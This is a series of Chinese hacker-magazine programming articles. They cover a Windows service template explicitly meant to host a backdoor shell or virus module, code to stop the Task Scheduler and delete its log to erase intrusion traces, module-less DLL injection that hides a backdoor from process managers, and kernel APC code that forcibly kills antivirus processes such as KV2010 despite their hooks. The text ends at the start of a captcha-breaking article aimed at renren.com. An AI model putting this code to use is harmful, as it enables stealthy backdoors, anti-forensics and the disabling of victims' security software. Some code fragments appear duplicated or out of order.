前面说过，我们的程序以系统服务方式运行后，从 main 或 WinMain 开始执行。要想执行 ServiceMain 则必须调用 StartServiceCtrlDispatcher 函数，而 StartServiceCtrlDispatcher 只有一个指向 SERVICE_TABLE_ENTRY 结构的参数。在这里我们建了一个名称为 myservice，入口点为 ServiceMain 的服务。有一点要说明的是服务名称和服务显示名称，可以相同也可以不同。服务显示名称就是我们打开 service.msc 时可以直接看到的名字，而服务名称则是在 service.msc 中看属性或者 360 安全卫士里显示的名称，我们的操作基本上需要的是服务名称。

```c
int main(int argc, _TCHAR* argv[])
{
    SERVICE_TABLE_ENTRY DispatchTable[] =
    {
        {L"myservice", ServiceMain}, {NULL, NULL}
        // SERVICE_TABLE_ENTRY 结构必须以 NULL 结束
    };
    StartServiceCtrlDispatcher(DispatchTable);
    return 0;
}
```

- 3）ServiceMain 函数

我们使用主流方法来实现此函数，先调用 RegisterServiceCtrlHandler 注册我们自己写的 ServiceCtrlHandler 函数，然后用 SetServiceStatus 来设置服务的状态，最后使用 CreateThread 来开启一个线程，执行我们想要的代码。出于操作系统的原因，最好在进入 ServiceMain 的时候就注册服务控制函数 ServiceCtrlHandler。函数结构如下：

```c
SERVICE_STATUS_HANDLE RegisterServiceCtrlHandler(
    LPCTSTR lpServiceName,              // 服务名称
    LPHANDLER_FUNCTION lpHandlerProc    // ServiceCtrlHandler 函数地址
);
```

```c
void WINAPI ServiceMain(DWORD dwArgc, LPTSTR *lpArgv)
{
    HANDLE hThread;
    // SERVICE_STATUS 结构，这个结构不是很复杂，大家自己查阅 MSDN
    ServiceStatus.dwServiceType = SERVICE_WIN32;
    ServiceStatus.dwCurrentState = SERVICE_START_PENDING; // 服务正在处理
    ServiceStatus.dwControlsAccepted = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_PAUSE_CONTINUE;
    ServiceStatus.dwServiceSpecificExitCode = 0;
    ServiceStatus.dwWin32ExitCode = 0;
    ServiceStatus.dwCheckPoint = 0;
    ServiceStatus.dwWaitHint = 0;

    // 注册服务控制函数 ServiceCtrlHandler
    ServiceStatusHandle = RegisterServiceCtrlHandler(L"myservice", ServiceCtrlHandler);
    if (ServiceStatusHandle == 0)
    {
        OutputDebugString(L"RegisterServiceCtrlHandler Error\n");
        return;
    }

    ServiceStatus.dwCurrentState = SERVICE_RUNNING; // 服务运行
    ServiceStatus.dwCheckPoint = 0;
    ServiceStatus.dwWaitHint = 0;

    // 设置服务状态
    if (SetServiceStatus(ServiceStatusHandle, &ServiceStatus) == 0)
    {
        OutputDebugString(L"SetServiceStatus Error\n");
        return;
    }

    // 创建一个新的线程，线程函数名为 RunService
    hThread = CreateThread(NULL, 0, RunService, NULL, 0, NULL);
    if (hThread == NULL)
    {
        OutputDebugString(L"CreateThread Error!\n");
        return;
    }
}
```

对于 RunService，如果我们想留一个后门，这里就可以启动一个 Shell；如果想做一个病毒，就可以做成一个感染模块，还可以很方便地进行用户层的 API Hook。如果要验证线程是否成功创建，RunService 可以调用一个写文件的功能。如果想用 MessageBox，那么很遗憾，由于操作系统本身的处理，这个对话框会弹不出来。

```c
DWORD WINAPI RunService(LPVOID lpParam)
{
    FILE* log; // debug
    log = fopen("f:\\废.txt", "a+");
    if (log == NULL)
        return -1;
    fprintf(log, "%s\n", "黑客防线");
    fclose(log); // debug
    return 0;
}
```

```c
break;
}
return;
}
```

- 4）ServiceCtrlHandler 函数

下面以服务暂停为例给出相关代码。在我们成功注册服务控制函数后，dwCode 将在系统调用 ServiceCtrlHandler 时由系统传入。

```c
void WINAPI ServiceCtrlHandler(DWORD dwCode)
{
    // 此处对服务停止进行响应
    switch (dwCode)
    {
    // service stop
    case SERVICE_CONTROL_STOP:
        ServiceStatus.dwCurrentState = SERVICE_STOPPED;
        // 服务状态设为停止
        ServiceStatus.dwWin32ExitCode = 0;
        ServiceStatus.dwCheckPoint = 0;
        ServiceStatus.dwWaitHint = 0;
        if (SetServiceStatus(ServiceStatusHandle, &ServiceStatus) == 0)
        {
            OutputDebugString("SetServiceStatus in Service Control Switch Error\n");
        }
        return;
    default:
        break;
    }
    return;
}


```

##### 总结

我们的调用流程如图 1 所示，在此基础上我们进行一下总结。

主进程用 StartServiceCtrlDispatcher 打开了与 SCM 的一个管道，告诉 SCM 我们服务的函数为 ServiceMain，并创建了一个 Service thread 线程。而 Service thread 的行为是先用 RegisterServiceCtrlHandler 注册我们的服务控制函数（ServiceCtrlHandler），再进行相关的初始化后，创建了我们自己的进程（写文件的那个）。
前置知识：VC

关键词：编程、日志
##### 清理 AT 命令使用痕迹

文/图 GF

入侵过程中计划任务的使用，还是有一定需求的。本文就将和大家讨论一下其相应日志的清除办法。

###### 清理路径

- 1）日志路径
- Windows 默认的位置是：
- Windows 2000/XP：`%systemroot%\SchedLgU.txt`
- Windows 2003：`%systemroot%\tasks\SchedLgU.txt`

此路径可从注册表中动态获取，位置是 `HKLM\SOFTWARE\Microsoft\SchedulingAgent`，由 `REG_SZ` 值 `LogPath` 保存。

需要注意的是，即使我们选择显示所有文件，依然无法在 tasks 目录下看到 SchedLgU.txt 这个文件，这是由于 desktop.ini 的配置引起的，如图 1 所示。在 cmd 下运行 `dir /a` 则可找到这个文件。如果想要查看日志，可以在 cmd 下使用 type 命令或者用如图 2 所示的方法打开。

因为计划任务自身的特殊性，短暂地终止服务进程是不会影响用户正常使用的。
图 1
图 2

- 2）如何删除 SchedLgU.txt

因为计划任务的相关服务进程会独占写该文件，所以若我们要改写或删除此文件需要先停掉此服务。

###### 实现代码

```c
HKEY hkey;
wchar_t *key = L"SOFTWARE\\Microsoft\\SchedulingAgent"; // 读路径
DWORD size = 255;
RegOpenKeyEx(HKEY_LOCAL_MACHINE,
    key,
    0,
    KEY_ALL_ACCESS,
    &hkey);
if (ERROR_SUCCESS != RegQueryValueEx(hkey, L"LogPath", 0, &type, (BYTE*)path, &size))
    return false;

SERVICE_STATUS ServiceStatus;
SC_HANDLE hsHANDLE = OpenSCManager(0, 0, SC_MANAGER_ALL_ACCESS);
hsHANDLE = OpenService(hsHANDLE, L"Schedule", SERVICE_ALL_ACCESS);
if (!hsHANDLE)
    return false;

if (ControlService(hsHANDLE, SERVICE_CONTROL_STOP, &ServiceStatus))
{
    Sleep(1000); // 注意：停掉服务后需要等待一会儿
    // ...这里是对文件的操作了，可由具体情况而定
    StartService(hsHANDLE, 0, 0); // 启动服务
    return res;
}


```

前置知识：VC  
关键词：编程、无模块 DLL、进程注入

## 无模块DLL的进程注入
文/meryal

一个基本的后门程序至少不能在各种进程管理器中有明显进程存在，也不能有明显的 DLL 模块。如果以上最基本的两点都做不到，就不算是合格的后门。最好的方法就是将后门做在 Ring0 级，然而 Ring0 级的程序设计对编程新手来说是件痛苦的事。在 Ring3 级别写出既能正常工作，又能隐藏的后门程序是编程新手梦寐以求的事情。本文就将针对 Ring3 级别后门的隐藏方法进行一些简单的研究。

###### 实现原理

首先请出我们的老朋友——DLL 注入。正如《Windows 核心编程》中所讲，较方便也较流行的 DLL 注入方式是使用 VirtualAllocEx、WriteProcessMemory 和 CreateRemoteThread 这几个 API 及改变线程上下文的方法。这种方法虽然没有陌生进程存在，但总会有一个扎眼的 DLL 模块存在于某个进程中，对于稍微懂得些许 Windows 操作系统知识的人来说，只要用一个稍微高级的进程管理器或运行 `Tasklist /m` 命令，即可查找出惹祸根源。对 DLL 进行注入，而又让管理员看不到 DLL 的存在是成败的关键。我们在此采用的方法是首先将 DLL 注入到目标进程，之后将注入后的 DLL 代码复制到新的缓冲区中，接着立即卸载刚才加载的 DLL。到这里大家就要问了，如果 DLL 被卸载，进程空间就没有了 DLL 模块，那么怎样实现我们的后门程序呢？关键就在这里，之前我们已经在新的缓冲区中保存了加载后的 DLL 代码，在卸载 DLL 后只要将保存的副本重新写入进程空间当中，再启动这段代码即可实现与原 DLL 注入相同的功能。当然，重新写入的 DLL 副本必须保证其基地址和之前 LoadLibrary 加载的地址完全一样，否则不仅程序会崩溃，重定位的问题也会使你崩溃。

###### 无痕式 DLL 后门

首先按照常规注入 DLL 的方法依次进行，具体步骤如下：

- 1）调整 Loader 进程权限为 `SE_PRIVILEGE_ENABLED` 权限，用到的自定义函数如下：

```c
BOOL AdjustPrivileges(
    HANDLE hProcess,             // 进程句柄
    LPCTSTR lpPrivilegeName      // 权限名字
);
```

其中的两个参数，一个为进程句柄，一个为所要提到的权限名字，这里要为 `SE_DEBUG_NAME`。

- 2）将 DLL 插入到目标进程，仍然用比较老套的方法 `VirtualAllocEx`、`WriteProcessMemory` 和 `CreateRemoteThread` 这三个 API。函数形式如下：

```c
BOOL InjectRemoteProcess(
    HANDLE hProcess,
    char* Dllfullname            // DLL 的完整路径
);
```

- 3）此时是无模块 DLL 注入成功的关键，必须在卸载 DLL 之前将刚刚插入的 DLL 代码保存在一个新的缓冲区中，保存之前须知道 DLL 加载的基地址和代码的大小等信息。函数 `GetThreadInformation` 可以获得加载的 DLL 模块的各种信息，包括模块基地址和模块大小。实现代码如下：

```c
BOOL GetThreadInformation(
    DWORD ProcessID,
    Char* Dllfullname,
    MODULEENTRY32 &Thread
)
{
    HANDLE hthSnapshot = NULL;
    hthSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, ProcessID);
    if (hthSnapshot == NULL) return FALSE;

    BOOL bMoreMods = Module32First(hthSnapshot, &Thread);
    if (bMoreMods == FALSE) return FALSE;

    for (; bMoreMods; bMoreMods = Module32Next(hthSnapshot, &Thread)) {
        if (!strcmp(Thread.szExePath, Dllfullname)) break;
    }

    if (!strcmp(Thread.szExePath, Dllfullname)) return TRUE;
    else return FALSE;
}
```

其中 `MODULEENTRY32` 是用来保存模块各种信息的结构体，`szExePath` 成员为加载模块的完整路径，函数成功执行后会将模块信息返回到 `Thread` 参数中，根据模块的基地址 `Thread.modBaseAddr` 和大小 `Thread.modBaseSize` 即可将 DLL 代码读入到 Buffer 中。

- 4）将 `FreeLibrary` 的地址写入目标进程地址空间，卸载 DLL，这样任何进程管理器都不会再看到目标进程中的后门 DLL 模块。

- 5）DLL 模块被卸载后，若要使 DLL 的功能重新实现，就得用上缓冲区中的副本了。废话不说，直接奉上代码。

```c
// 重新分配虚拟内存，并将副本写入原地址中
LPVOID Alloc;
Alloc = VirtualAllocEx(hRemoteProcess, Thread.modBaseAddr,
    Thread.modBaseSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (Alloc == NULL) {
    printf("VirtualAllocEx Failed!\n");
    return 0;
}

BOOL Writer; DWORD Written;
Writer = WriteProcessMemory(hRemoteProcess, Thread.modBaseAddr,
    buffer, Thread.modBaseSize, &Written);
if (Writer == 0) {
    // ...
}
```

```c
BOOL GetThreadInformation(
    DWORD ProcessID,
    Char* Dllfullname,
    MODULEENTRY32 &Thread
)
```

```c
printf("WriteProcessMemory Failed!\n");
return 0;
}
// 重新启动新的代码
HANDLE hNewThread = NULL;
if ((hNewThread = CreateRemoteThread(
    hRemoteProcess,
    NULL,
    0,
    (PTHREAD_START_ROUTINE)(Thread.modBaseAddr + BackDoorFun),
    NULL,
    0,
    NULL)) == NULL)
{
    printf("CreateNewThread failed!!\n");
    return 0;
}
return 0;


```

二是 CreateRemoteThread 的第 4 个参数 BackDoorFun 为 DLL 中实现后门功能的函数基地址，在卸载 DLL 前，可将 GetProcAddress 函数插入到目标进程空间中，使用与获得 LoadLibrary 地址的相同方法取得后门函数的地址。为简单起见，直接使用 LordPE 软件取得函数地址。若后门功能在 DllMain 中实现，则函数地址为 DLL 的入口点。三是 CreateRemoteThread 的第 5 个参数为后门函数的参数，若其有参数，则需要再次使用 VirtualAllocEx 和 WriteProcessMemory 函数将参数写入目标进程空间中；若没有参数，直接写 NULL 即可。

其中注意以下三点：一是 VirtualAllocEx 的第 4 个参数必须为 MEM_COMMIT | MEM_RESERVE，否则会失败。至此，无模块 DLL 的注入已经完成。至于如何继续完善此后门程序，大家可尽情发挥自己的想象力和创造力，不再赘述。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

###### 前置知识
VC

###### 关键词
- 编程
- APC
- 结束进程

##### 自己实现插 APC 结束线程
文/广东工业大学 胡文亮（Tesla.Angela）

我也写过不少结束进线程的代码了（不包括内存清零），不过没有哪个能让我满意。因为只要挂钩 KeInsertQueueApc 和 PspTerminateThread_ByPointer，就能防住我以前写的所有结束进线程的代码，比如我上次写的《模拟实现 NT 系统通用的 PspTerminateProcess》。有人说恢复钩子不行吗？我觉得是不行的。且不说别人可以直接禁止你打开内核文件，高档次的 Rootkit 完全可以伪造内核数据，让你连钩子都检查不出来。

既然直接用 KeInsertQueueApc 来插 APC 不行，那我们只好用更加底层的方式来实现了——自己实现插入 APC。

首先看看 KeInitializeApc 是怎么初始化 APC 的（摘自 WRK）。这段代码很短，也很容易理解，初始化 APC 的本质仅仅是对自定义结构进行赋值操作罢了。

```c
VOID
KeInitializeApc(
    OUT PRKAPC Apc,
    IN PRKTHREAD Thread,
    IN KAPC_ENVIRONMENT Environment,
    IN PKKERNEL_ROUTINE KernelRoutine,
    IN PKRUNDOWN_ROUTINE RundownRoutine,
    IN PKNORMAL_ROUTINE NormalRoutine,
    IN KPROCESSOR_MODE ApcMode,
    IN PVOID NormalContext
)
{
    ASSERT(Environment <= InsertApcEnvironment);
    Apc->Type = ApcObject;
    Apc->Size = sizeof(KAPC);
    if (Environment == CurrentApcEnvironment) {
        Apc->ApcStateIndex = Thread->ApcStateIndex;
    } else {
        ASSERT((Environment <= Thread->ApcStateIndex) ||
               (Environment == InsertApcEnvironment));
        Apc->ApcStateIndex = (CCHAR)Environment;
    }

    Apc->Thread = Thread;
    Apc->KernelRoutine = KernelRoutine;
    Apc->RundownRoutine = RundownRoutine;
    Apc->NormalRoutine = NormalRoutine;
    if (ARGUMENT_PRESENT(NormalRoutine)) {
        Apc->ApcMode = ApcMode;
        Apc->NormalContext = NormalContext;
    } else {
        Apc->ApcMode = KernelMode;
        Apc->NormalContext = NIL;
    }
    Apc->Inserted = FALSE;
    return;
}
```

```c
PKAPC Apc = NULL;
BOOLEAN blnSucceed = FALSE;
// 线程地址检查
if (!MmIsAddressValid(Thread)) return FALSE;
// 申请 APC
Apc = ExAllocatePool(NonPagedPool, sizeof(KAPC));
thread2 = (PKTHREAD)Thread;
// 自己初始化 APC
Apc->Type = 18;
Apc->Size = sizeof(KAPC);
Apc->ApcStateIndex = thread2->ApcStateIndex;
Apc->Thread = thread2;
Apc->KernelRoutine = ExpTimerApcKernelRoutine;
Apc->RundownRoutine = PspExitApcRundown;
Apc->NormalRoutine = PspExitNormalApc;
Apc->ApcMode = UserMode;
Apc->Inserted = TRUE;
Apc->NormalContext = NULL;
ASSERT(KeGetCurrentIrql() <= DISPATCH_LEVEL);
Apc->SystemArgument1 = NULL;
Apc->SystemArgument2 = NULL;
ApcState = thread2->ApcStatePointer[Apc->ApcStateIndex];
thread2->ApcState.UserApcPending = TRUE;
ASSERT(Apc->Inserted == TRUE);
InsertTailList(&ApcState->ApcListHead[Apc->ApcMode], &Apc->ApcListEntry);
// 使 APC 执行
blnSucceed = ReadyThread(Thread);
return blnSucceed;
}
```

接下来看 APC 是怎样被“插”进线程的。众所周知，KeInsertQueueApc 只是一个壳，稍作参数检查（比如 ApcQueueable 是否为 FALSE）之后，就调用了 KiInsertQueueApc，所以 KeInsertQueueApc 的代码就不解释了。

```c
VOID FASTCALL KiInsertQueueApc(IN PKAPC Apc, IN KPRIORITY Increment)
{
    // WRK 中 KiInsertQueueApc 的代码很长，这里只贴关键部分，省略无关代码
    if (Apc->NormalRoutine != NULL) {
        if ((ApcMode != KernelMode) && (Apc->KernelRoutine == PsExitSpecialApc)) {
            Thread->ApcState.UserApcPending = TRUE;
            InsertHeadList(&ApcState->ApcListHead[ApcMode], &Apc->ApcListEntry);
        } else {
            InsertTailList(&ApcState->ApcListHead[ApcMode], &Apc->ApcListEntry);
        }
    } else {
        ListEntry = ApcState->ApcListHead[ApcMode].Blink;
        while (ListEntry != &ApcState->ApcListHead[ApcMode]) {
            ApcEntry = CONTAINING_RECORD(ListEntry, KAPC, ApcListEntry);
            if (ApcEntry->NormalRoutine == NULL) {
                break;
            }
            ListEntry = ListEntry->Blink;
        }
        InsertHeadList(ListEntry, &Apc->ApcListEntry);
    }
    // 省略无关代码
}
```

令人遗憾的是，在把 APC 插入线程之后，线程一点反应也没有。有人说，用 KeForceResumeThread 唤醒线程不行吗？且不说 KeForceResumeThread 没有导出，调用也很麻烦，而且经我测试，用 KeForceResumeThread 也无效。Syt 提出，执行了上述代码后，再对目标线程执行一次 KeInsertQueueApc，能促使线程执行我们刚才插入的 APC。

由此可见，把 APC 插进线程并不算复杂，就是使用了 InsertHeadList 和 InsertTailList 进行链表操作罢了。知道了这两点，我们就能自己实现插入 APC 的操作了，实现代码如下：

```c
BOOLEAN TerminateThread(PETHREAD Thread)
{
    KIRQL OldIrql;
    PKTHREAD thread2;
    PKAPC QueuedApc;
    PKAPC_STATE ApcState;
    ...
}
```

```c
BOOLEAN ReadyThread(PETHREAD Thread)
{
    PKTHREAD thread1;
    PKAPC Apc = NULL;
    BOOLEAN blnSucceed = FALSE;
    // 初始化 Apc
    Apc = ExAllocatePool(NonPagedPool, sizeof(KAPC));
    thread1 = (PKTHREAD)Thread;
    Apc->Type = 18;
    Apc->Size = sizeof(KAPC);
    Apc->ApcStateIndex = thread1->ApcStateIndex;
    Apc->Thread = thread1;
    Apc->KernelRoutine = NullKernelRoutine;
    Apc->RundownRoutine = NULL;
    Apc->NormalRoutine = NULL;
    Apc->ApcMode = KernelMode;
    Apc->NormalContext = NULL;
    Apc->Inserted = FALSE;
    // 促使线程执行插入的 APC。用 KeInsertQueueApc 再插一次
    blnSucceed = KeInsertQueueApc(Apc, NULL, NULL, 0);
    if (blnSucceed) ExFreePool(Apc);
    return blnSucceed;
}
```

但不知为何，这种方法只对绝大多数（约 95%）线程有效，对某些线程无效，至今我都没有搞明白。文章到此似乎应该完结了，但实际上还有一个重要的问题没有解决：在 APC 例程中执行什么样的代码才有足够的强度？用网上流传的 NtTerminateThread(0,0) 或者 DKOM+PsTerminateSystemThread，明显强度都很低，因为只要挂钩 PspTerminateThreadByPointer 就可以了。唯一的选择，就是使用 PspExitThread。由于 PspExitThread 没有导出，所以我们必须搜索。首先通过 PsTerminateSystemThread 得到 PspTerminateThreadByPointer 的地址，接下来就有两种方法了。

- 一是搜索 `PspTerminateThreadByPointer` 后面的 `call`。根据 WinDBG 的本地内核调试结果，可以发现第 2 个 `call` 要调用的目标就是 `PspExitThread`。
- 二是在 `PspTerminateThreadByPointer` 中搜索特征码 `3189`，这个方法经测试可行。

```asm
nt!PspTerminateThreadByPointer+0x44:
805d38c6 33c0             xor eax,eax
805d38c8 40               inc eax
805d38c9 f00906           lock or dword ptr [esi],eax
805d38cc ff750c           push dword ptr [ebp+0Ch]
805d38cf e8bef7ffff       call nt!PspExitThread
```

图 1

```c
ULONG GetPspExitThreadAddress()
{
    UCHAR *cPtr, *pOpcode;
    ULONG Length, CallCount = 1, ETAddr = 0;
    ULONG AddressOf_PsTerminateSystemThread, AddressOf_PspTerminateThreadByPointer, AddressOf_PspExitThread;
    ULONG sPtr, PspETO;

    // 查找 PsTerminateSystemThread 的第一个 call 得到
    // PspTerminateThreadByPointer 的地址
    AddressOf_PsTerminateSystemThread = GetFunctionAddr("PsTerminateSystemThread");
    for (cPtr = (PUCHAR)AddressOf_PsTerminateSystemThread;
         cPtr < (PUCHAR)AddressOf_PsTerminateSystemThread + PAGE_SIZE;
         cPtr += Length)
    {
        Length = SizeOfCode(cPtr, &pOpcode);
        if (!Length) return ETAddr;
        if (*pOpcode == 0xE8)
        {
            AddressOf_PspTerminateThreadByPointer = (*(PULONG)(pOpcode + 1) + (ULONG)cPtr + 5);
            break;
        }
    }
}
```

```c
DbgPrint("AddressOf_PspTerminateThreadByPointer=%X", AddressOf_PspTerminateThreadByPointer);

// 查找 PspExitThread 的地址
// 方法1：查找 PspTerminateThreadByPointer 后面的第2个 call
for (cPtr = (PUCHAR)AddressOf_PspTerminateThreadByPointer;
     cPtr < (PUCHAR)AddressOf_PspTerminateThreadByPointer + PAGE_SIZE;
     cPtr += Length)
{
    Length = SizeOfCode(cPtr, &pOpcode);
    if (!Length) return ETAddr;
    if (*pOpcode == 0xE8)
    {
        if (CallCount == 2)
        {
            AddressOf_PspExitThread = (*(PULONG)(pOpcode + 1) + (ULONG)cPtr + 5);
            DbgPrint("PspExitThread Address 2 = %X", AddressOf_PspExitThread);
            break;
        }
        CallCount++;
    }
}

// 方法2：寻找特征码“3189”
sPtr = AddressOf_PspTerminateThreadByPointer;
while (sPtr < (ULONG)AddressOf_PspTerminateThreadByPointer + PAGE_SIZE)
{
    if (*(WORD*)sPtr == 3189)
    {
        PspETO = (ULONG)(*(DWORD*)(sPtr + 3) + sPtr + 7);
        DbgPrint("PspExitThread Address 1 = %X", PspETO);
        break;
    }
    sPtr++;
}

// 如果两种方法得到的结果不同则放弃
if (PspETO != AddressOf_PspExitThread)
{
    ETAddr = 0;
}
else
{
    ETAddr = AddressOf_PspExitThread;
}
return ETAddr;
}
```

这段代码不仅能在 Windows XP 上运行，也能在 Windows 7 x86 上运行并得到正确的 PspExitThread 地址。得到了地址还不行，我们还要转换为函数才能执行。

```c
typedef VOID (*PSPEXITTHREAD)(IN NTSTATUS ExitStatus);
PSPEXITTHREAD PspExitThread = NULL;
NTSTATUS GetPspExitThreadAddr()
{
    ...
}
```

```c
NTSTATUS ntStatus = STATUS_UNSUCCESSFUL;
ULONG psp_ET;
psp_ET = GetPspExitThreadAddress();
DbgPrint("psp_ET=%x", psp_ET);
// 如果成功则可得到 PspExitThread 的地址
if (psp_ET != 0)
{
    PspExitThread = (PSPEXITTHREAD)psp_ET;
    ntStatus = STATUS_SUCCESS;
}
return ntStatus;
```

在我们的 APC 例程中，编写如下代码即可。

```c
VOID ExpTimerApcKernelRoutine(IN PKAPC Apc,
    IN OUT PKNORMAL_ROUTINE *NormalRoutine,
    IN OUT PVOID *NormalContext,
    IN OUT PVOID *SystemArgument1,
    IN OUT PVOID *SystemArgument2)
{
    ExFreePool(Apc);
    PspExitThread(STATUS_SUCCESS);
}
```

接下来的代码就是循环枚举线程并结束，最终达到结束进程的目的。我开始想用 `PsLookupThreadByThreadId` 来逐个枚举线程，后来想想还是枚举线程链表比较好（安装了 KV2010 后无法使用 `PsLookupThreadByThreadId`）。

```c
// 作用：枚举线程链表得到各个线程并结束
NTSTATUS SyfTerminateProcess(PEPROCESS Process)
{
    NTSTATUS Status;
    PETHREAD Thread;
    Status = STATUS_SUCCESS;

    if (GetPspExitThreadAddr() != STATUS_SUCCESS)
    {
        DbgPrint("Can not get PspExitThread!");
        return STATUS_UNSUCCESSFUL;
    }

    __try
    {
        for (Thread = GetNextProcessThread(Process, NULL);
             Thread != NULL;
             Thread = GetNextProcessThread(Process, Thread))
        {
            if (TerminateThread(Thread) == TRUE)
            {
                DbgPrint("Thread Terminated: %x", (ULONG)Thread);
            }
        }
    }
    __except(EXCEPTION_EXECUTE_HANDLER)
    {
        Status = GetExceptionCode();
    }

    return Status;
}
```

```c
PETHREAD GetNextProcessThread(IN PEPROCESS Process, IN PETHREAD Thread OPTIONAL)
{
    PETHREAD FoundThread = NULL;
    PLIST_ENTRY ListHead, Entry;
    PAGED_CODE();

    if (Thread)
    {
        Entry = (PLIST_ENTRY)((ULONG)(Thread) + ThreadListEntryOffset);
        Entry = Entry->Flink;
    }
    else
    {
        Entry = (PLIST_ENTRY)((ULONG)(Process) + ThreadListHeadOffset);
        Entry = Entry->Flink;
    }

    ListHead = (PLIST_ENTRY)((ULONG)Process + ThreadListHeadOffset);
    while (ListHead != Entry)
    {
        FoundThread = (PETHREAD)((ULONG)Entry - ThreadListEntryOffset);
        if (ObReferenceObject(FoundThread))
            break;
        FoundThread = NULL;
        Entry = Entry->Flink;
    }

    if (Thread) ObDereferenceObject(Thread);
    return FoundThread;
}


```

以上代码虽然简单，但效果很不错。对 `KeInsertQueueApc` 进行了 Call Hook 的 IceLight，以及挂钩了 `PspTerminateThreadByPointer` 的程序，都能在不恢复钩子的前提下轻易被结束，如图 2 所示。

理论上这份代码可以结束 KV2010，但可惜仅仅是理论上。因为在安装了 KV2010 的机器上，我们的程序得不到 `PspExitThread` 的地址，如图 3 所示。原因看看 WinDbg 就知道了，如图 4 所示。KV2010 对 `PspTerminateThreadByPointer` 用 6 字节的 push-ret 方式进行了挂钩！
图 3
图 4

虽然我们无法通过查找 call 或者特征码的方式得到 PspExitThread 的地址，但 PspExitThread 是确实存在的，而且没有被修改过，如图 5 所示。
图 5

所以我们只要通过读内核文件的方式得到 PspExitThread 的地址，传给驱动调用就行了。经测试，可以秒杀 KV2010（我测试的是“江民安全专家”的进程），如图 6 所示。

不过，在 Ring3 下得到 PspExitThread 的地址也算是大工程了。这明显是不划算的，所以我们必须另辟蹊径。我们看看 PspExitThread 都干了些什么（反汇编代码很长，就不全贴出来了，只贴关键部分）。

```
nt!PspExitThread+0x6bc:
805d374e e87db2f2ff  call nt!KeTerminateThread (804fe9d0)
805d3753 e87394f6ff  call nt!_SEH_epilog (8053cbcb)
805d3758 c20400      ret 4


```
图 6

PspExitThread 调用了 KeTerminateThread。再看看 KeTerminateThread 的原型：“VOID STDCALL KeTerminateThread(IN KPRIORITY Increment)”。看看在 ReactOS 中 KeTerminateThread 实现的代码：

```c
VOID STDCALL KeTerminateThread(IN KPRIORITY Increment)
{
    KIRQL OldIrql;
    PKTHREAD Thread = KeGetCurrentThread();
    /* Lock the Dispatcher Database and the APC Queue */
    DPRINT("Terminating\n");
    OldIrql = KeAcquireDispatcherDatabaseLock();
    /* Remove the thread from the list */
    RemoveEntryList(&Thread->ThreadListEntry);
    /* Insert into the Reaper List */
    DPRINT("List %p\n", PspReaperList);
    ((PETHREAD)Thread)->ReaperLink = PspReaperList;
    PspReaperList = (PETHREAD)Thread;
    DPRINT("List %p\n", PspReaperList);
    /* Check if it's active */
    if (PspReaping == FALSE) {
        /* Activate it. We use the internal function for speed, and
           use the Hyper Critical Queue */
        PspReaping = TRUE;
        DPRINT("Terminating\n");
        KiInsertQueue(&ExWorkerQueue[HyperCriticalWorkQueue],
                      &PspReaperWorkItem.List,
                      FALSE);
    }
    /* Handle Kernel Queues */
    if (Thread->Queue) {
        DPRINT("Waking Queue\n");
        RemoveEntryList(&Thread->QueueListEntry);
        KiWakeQueue(Thread->Queue);
    }
    /* Signal the thread */
    Thread->DispatcherHeader.SignalState = TRUE;
    if (IsListEmpty(&Thread->DispatcherHeader.WaitListHead) != TRUE) {
        /* Satisfy waits */
        KiWaitTest((PVOID)Thread, Increment);
    }
    /* Find a new Thread */
    KiDispatchThreadNoLock(Terminated);
}
```

其中有一个关键函数 RemoveEntryList。经我和 syf 研究，发现此函数是把线程从线程调度链表上摘除。既然线程已经从线程调度链表上摘除，自然就不能再获得调度的机会了，也就是“死”了。我们把内核 APC 例程改成这样：

```c
VOID ExpTimerApcKernelRoutine(IN PKAPC Apc, IN OUT PKNORMAL_ROUTINE *NormalRoutine, IN OUT PVOID *NormalContext, IN OUT PVOID *SystemArgument1, IN OUT PVOID *SystemArgument2)
{
    ExFreePool(Apc);
    // 如果能得到 PspExitThread 的地址，就使用
    // PspExitThread，否则使用 KeTerminateThread
    if (IsGetET == 1) {
        ...
    }
}
```

```c
{
    DbgPrint("[ExpTimerApcKernelRoutine] PspExitThread!");
    PspExitThread(STATUS_SUCCESS);
}
else
{
    DbgPrint("[ExpTimerApcKernelRoutine] KeTerminateThread!");
    KeTerminateThread();
}


```
图 7
图 8

将以上代码编译运行，结果如图 7 所示。左边那条类似“花屏”的东西原本是“江民安全专家”进程的界面，失去调度之后就成了这样。虽然进程没有退出，但用 ARK 工具查看它的线程，发现线程已经终止了，如图 8 所示。对付 KV2010 的托盘进程（KVMonXP.exe）也是如此，虽然托盘进程没有退出，但是用鼠标点击那个图标已经没有任何反应了。

全文到此就结束了，我想说说我的感受。我和 syf 能自己实现插 APC 的操作，很大原因是有了 ReactOS 代码的帮助。很多人只知道看 WRK，WRK 里没有就祈求所谓“大牛”的帮助。求人不如求己，ReactOS 的源码就是最好的“大牛”。为了说明 ReactOS 源码对研究 NT 内核的重要性，我引用 Linux 创始人 Linus Torvalds 的一句名言：源码面前，了无秘密。

由于本文涉及的代码属底层，所以只在 Windows XP 下测试通过，有兴趣的读者可以继续完善，让其在其他版本的 Windows 上也能正常运行。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VB

关键词：编程、验证码、图像识别

##### VB 识别简单规则验证码

文/图 李勃杰
为防止机器人提交大量无用信息，现在许多网站采用图片验证码来阻止机器人自动提交。但作为人能够识别的东西，使用一定的算法，程序同样可以实现辨别。现在流行 OCR 技术，所谓 OCR（Optical Character Recognition，光学字符识别）技术，是指电子设备（例如扫描仪或数码相机）检查纸上打印的字符，通过检测暗、亮的模式确定其形状，然后用字符识别方法将形状翻译成计算机文字的过程。即对文本资料进行扫描，然后对图像文件进行分析处理，获取文字及版面信息的过程。

下面介绍使用 VB 识别最简单、最规则的图片验证码，以人人网（原校内网）手机网站中的图片为例。其验证码 URL 的基本格式为：http://3g.renren.com/randimg?pos=_REQUESTFRIEND_255522531&rnd=1268232135095，登录的用户不同，验证码的 URL 有所变化。打开该验证码，可以发现其图片的基本形式如图 1 所示，以黑色为底，文字用白色突出显示，图中所有字符均为数字。该图片的维度为 46×16。
图 1 图片验证码的基本形式

###### 程序识别的方式

对于这种简单而规则的验证码，我们可以采用“逐行扫描有用像素”的方式来区分不同的字符。将文字突出显示的像素定义为有用像素（该例为白色），而黑色背景中的像素不是有用像素。

###### 编码实现

